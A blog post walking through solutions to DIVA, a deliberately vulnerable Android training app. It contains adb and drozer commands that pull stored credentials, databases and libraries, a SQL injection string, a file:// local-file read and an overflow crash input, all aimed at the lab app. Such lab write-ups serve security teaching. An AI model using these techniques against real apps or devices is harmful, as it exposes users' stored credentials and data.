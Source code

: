 ```yaml
---
layout: post
title: 'Diva Android Solutions '
description: DIVA Android - Damn Insecure and vulnerable App for Android
date: '2019-07-30 12:03:36 +0530'
categories: Solutions
published: true
---
```


## Diva Android Solutions





![png]({{site.baseurl}}/pics/main.png)


## Insecure Logging

![png]({{site.baseurl}}/pics/insecure.png)

Develophers use logs to debug their applications. Leaking information in logs is general situation and can be found any system. In android, we can read logs from adb logcat command. Then when we look logs we see our application leakes our credit card number in logs.
 
 
```bash
adb logcat >  out.txt
cat out.txt | grep diva
```

![png]({{site.baseurl}}/pics/insecure-2.png)

![png]({{site.baseurl}}/pics/insecure1code.png)
When we look at the code the problematic part is that
  ```java 
Log.e("diva-log", "Error while processing transaction with credit card: " + localEditText.getText().toString());
```
which stores credit card number.


## Hardcoding Issues 1

![png]({{site.baseurl}}/pics/hardcodemain.png)
Sometimes develophers uses critical information as hard-coded. In these example hardcoded part in apk files.
To get apk  from our phone we use adb pull.
Then we use bytecodeviewer to open it. When we goto  related class HardcodeActivity we see blow result. Vendor secret leaked. 
![png]({{site.baseurl}}/pics/hardcode.png)

adb pull apk
bytecodeviever
vendorsecretkey


## Insecure Data Storage

![png]({{site.baseurl}}/pics/insecure.png.png)

These time credentials stored in shared preferences which gives oppurtunity to store small information in xml files. It is stored in shared_prefs directory.
  ```bash 
adb shell
cd data/data/jakhar.aseem.diva/
ls
cd shared_prefs/
cat jakhar.aseem.diva_preferences.xml
```



/data/data/jakhar.aseem.diva/shared_prefs

jakhar.aseem.diva_preferences.xml
```xml
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
	<map>
	    <string name="user">adadd</string>
	    <string name="password">sdsdsdsd</string>
	</map>
```



## Insecure Data Storage 2

	Common method to store data is using databases. In these example data  stored in sqlite databses plaintext.
	To check database we download  by adb pull and open by sqlitebrowser.

```bash
	adb pull data/data/jakhar.aseem.diva/databases/ids2

	sqlitebrowser ids2
```


## Insecure Data Storage 3

	In these example, develpher tore data in tmp file which starts with uinfo.


```bash
	adb pull /data/data/jakhar.aseem.diva/uinfo-493535252tmp
	cat uinfo-493535252tmp
```

## Insecure Data Storage 4

	These time data stored in different directory. To Read file we go location of $EXTERNAL_STORAGE variable.
	```bash
	echo $EXTERNAL_STORAGE
	.uinfo.txt
```


## Input Validation Issues 1
	
	When working with databases valitating input so critical. I fit not done properly or not used properly sql injecttion vulnerability occurs. Below input returns  alll results n table.
```bash
	' or 1=1 --
```


## Input Validation Issues 2

	Also file  inclusion vulnerabilities can be found  in mobile application. In example we can read local files by fiving them.
```bash
	file:///data/data/jakhar.aseem.diva/lib/libdivajni.so
```
## Access Control Issues
	Activities opened by intents and sometimes these activities are not secured. So they can can be called directly.

	To do these we use drozer .To download and setup it you can use following link
	https://github.com/mwrlabs/drozer


```bash	
	activity intent 
	run app.activity.info  -a jakhar.aseem.diva
	jakhar.aseem.diva.APICredsActivity
	run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICredsActivity
```

## Access Control Issues 2

	TVEETER API Key: secrettveeterapikey\nAPI User name: diva2\nAPI Password: p@ssword2




## Access Control Issues 3
	Like activities, broviders can leake information. 
```bash	
	run app.provider.info -a jakhar.aseem.diva
	run scanner.provider.finduris -a jakhar.aseem.diva
	run scanner.provider.sqltables -a content://jakhar.aseem.diva.provider.notesprovider/notes/
	run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes/
```


## Hardcoding Issues 2

	These time critical insormation is in libraries.

```bash	
adb pull lib/lib.so
strings
olsdfgad;lh
```


## Input Validation Issues 3

	Example includes overflow vulnerability.
	To crach app we try each time more character.
	When reached maximum app will crash.


```bash	pppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppp
```




